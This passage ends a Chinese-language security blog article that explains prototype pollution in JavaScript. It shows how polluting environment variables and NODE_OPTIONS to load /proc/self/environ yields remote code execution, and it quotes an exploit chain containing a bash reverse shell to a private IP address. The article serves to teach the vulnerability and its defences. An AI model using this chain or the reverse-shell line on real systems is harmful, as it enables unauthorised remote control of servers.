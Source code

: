 所以，如果我們可以上傳一個 js 檔案，就可以搭配 prototype pollution 去執行這個檔案了。聽起來有點麻煩，有其他方法嗎？

有！有一個滿常用的技巧是有些檔案的內容其實是可控的，例如說 PHP 中的 session 內容就有機會控制，可參考這一篇：[透過 LFI 引入 PHP session 檔案觸發 RCE](https://kb.hitcon.org/post/165429468072/%E9%80%8F%E9%81%8E-lfi-%E5%BC%95%E5%85%A5-php-session-%E6%AA%94%E6%A1%88%E8%A7%B8%E7%99%BC-rce)，而另一個 Linux 系統中的檔案 `/proc/self/environ` 則是會有現在的 process 的所有環境變數。

如果我們建立一個環境變數叫做 `A=console.log(123)//`，`/proc/self/environ` 的內容就會變為：

``` js
A=console.log(123)//YARN_VERSION=1.1PWD=/userLANG=en_US.UTF-8....
```

就變成了合法的 JS 程式碼！

於是就可以利用這樣的方式去執行它：

``` js
NODE_OPTIONS="--require /proc/self/environ" A='console.log(1)//' node b.js
```

作者最後給出的 code 長這樣：

``` js
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

污染了兩個不同的屬性，創造了兩個環境變數，一個用來把 `/proc/self/environ` 變成合法的 JS 並且包含了要執行的程式碼，另一個 `NODE_OPTIONS` 則透過 `--require` 去引入 `/proc/self/environ`，最後就串成了可以執行任意程式碼的 RCE 漏洞！

## 結語

我自己在接觸資安以前，是沒有聽過 prototype pollution 的。

因此當我第一次接觸到 prototype pollution 這個漏洞的時候，我覺得有些驚訝。我驚訝的點在於，為什麼我從來沒聽過這個？比起前端常見的漏洞像是 XSS 或是 CSRF 等等，prototype pollution 的知名度似乎低了許多。

有些人第一次看到這名詞可能是因為某個 NPM 的 package 有這個漏洞，升級版本以後就修掉了，但可能沒有去理解這個漏洞的成因以及可能的影響。

我自己其實滿愛這個漏洞的，第一是我覺得成因很有趣，第二是我覺得尋找 script gadget 也很有趣。總之呢，希望能藉由這篇文章，讓更多前端工程師認識到這個漏洞，並且知道它的原理以及防禦方式。

最後推薦大家一篇超讚的文章，透過自動化的方式去檢測 prototype pollution 漏洞，並且找出發生問題的地方，我覺得把 prototype pollution 又提升到了另一個境界：[A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild](https://blog.s1r1us.ninja/research/PP)

